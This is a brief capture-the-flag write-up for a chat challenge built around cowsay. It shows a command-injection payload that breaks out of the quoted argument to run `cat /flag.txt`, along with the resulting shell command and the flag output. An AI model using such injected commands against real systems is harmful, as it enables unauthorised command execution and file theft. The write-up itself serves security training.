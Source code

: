 This is similar to last year's challenge.

First, switch the interface to "cow" mode.

```
/watch cow
```

You would have to look at the source code file to know to switch it.

Then, do the command injection

```
/say hacked"; cat /flag.txt; " 
```


which turns into

```
/usr/games/cowsay "/say hacked"; cat /flag.txt; ""
```

```
 ________
< hacked >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
sigpwny{well_that_ruined_the_watch_party}
```